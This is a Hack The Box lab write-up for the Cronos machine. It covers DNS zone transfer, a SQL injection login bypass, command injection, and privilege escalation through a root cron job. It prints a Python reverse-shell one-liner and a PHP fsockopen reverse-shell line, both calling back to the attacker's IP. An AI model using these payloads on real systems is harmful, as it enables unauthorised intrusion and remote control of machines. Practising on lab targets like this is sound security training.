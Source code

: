 # Cronos

This is my write-up for the machine **Cronos** on Hack The Box located at: [https://app.hackthebox.com/machines/Cronos](https://app.hackthebox.com/machines/Cronos).

nmap scan: `nmap 10.10.10.13`

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1).png>)

We see three ports open. On port 80, we see the following:&#x20;

![](<../../.gitbook/assets/image (333) (1).png>)

I am not too familiar with DNS enumeration methods. For this reason, after I searched online for a while (and got nowhere), I then read up what I had missed from the official Hack The Box write-up for this machine. In it the author says to add **cronos.htb** to the **/etc/hosts** file. Then run the following command:

`dig axfr @10.10.10.13 cronos.htb`

This will show us the following:

![](<../../.gitbook/assets/image (327) (1).png>)

We see an **admin.cronos.htb**, so we will add that to the **/etc/hosts** file as well (step was mentioned in the official write-up):

![](<../../.gitbook/assets/image (338) (1) (1).png>)

Now if we go to **admin.cronos.htb**, we see the following:

![](<../../.gitbook/assets/image (347) (1) (1) (1).png>)

Looking at the tags for this machine, I believe that we have to do a SQL Injection for this authentication portal:

![](<../../.gitbook/assets/image (367) (1) (1) (1).png>)

I then opened this web page in Burp Suite to see if I can manipulate the outgoing HTTP requests. I was not able to get any where using the **Intruder** or **Repeater** modules. Reading the write-up again, it seems the SQL Injection I did try **admin'--** was incorrect by a small bit. I miseed the extra **" -"** at the end:

![screenshot from official write-up](<../../.gitbook/assets/image (332) (1) (1).png>)

I was then on this page:

![](<../../.gitbook/assets/image (346) (1) (1) (1).png>)

I tried to run two commands together, the traceroute and an additional **ls**:

![](<../../.gitbook/assets/image (335) (1) (1) (1).png>)

When I run `cat index.php`, I get the following:

![](<../../.gitbook/assets/image (359) (1) (1) (1).png>)

To me this means that there is room for me to run a reverse netcat connection to my own machine. Netcat did not work for me but the following python command from [this github page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) worked for me instead:

`export RHOST="10.10.14.14";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`

&#x20;

![](<../../.gitbook/assets/image (361) (1) (1) (1) (1).png>)

I then upgraded by shell to a interactive tty shell (from [this website](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)):

![](<../../.gitbook/assets/image (334) (1) (1) (1).png>)

I was able to find the user.txt flag in the user **noulis**'s home directory:

![](<../../.gitbook/assets/image (363) (1) (1) (1) (1) (1).png>)

In order to upload **linpeas.sh** to the machine, I had to download it locally and serve it up in a python http server:

![](<../../.gitbook/assets/image (357) (1) (1) (1).png>)

I was then able to grab it from the other machine using **wget**:

![](<../../.gitbook/assets/image (358) (1) (1).png>)

In the official write-up, something stood out to me:

![](<../../.gitbook/assets/image (364) (1) (1) (1) (1) (1).png>)

Obviously, in the real world a hint like this would not be given, but since I had tried what I had known and got nowhere, I took a hint from this. This led me to finding this:

![](<../../.gitbook/assets/image (360) (1) (1) (1).png>)

I knew that root was running the **artisan** file. After some messing around, what worked for me was creating a local file named artisan and copying all the contents from the original file into it. Then I edited one line in the file to get me a reverse shell:

`$sock=fsockopen("10.10.14.14",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);`

This was a line I got from the [same GitHub page mentioned previously](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php). After uploading the file using python3 http server, the file would upload as **artisan.1**:

![](<../../.gitbook/assets/image (356) (1).png>)

As shown in the screenshot above, in order to go around this I just updated the file to be the one I gave it. I would recommend you run the netcat listener **prior** to updating the artisan file for best results. After a minute of waiting, I had the shell:

![](<../../.gitbook/assets/image (365) (1) (1) (1).png>)
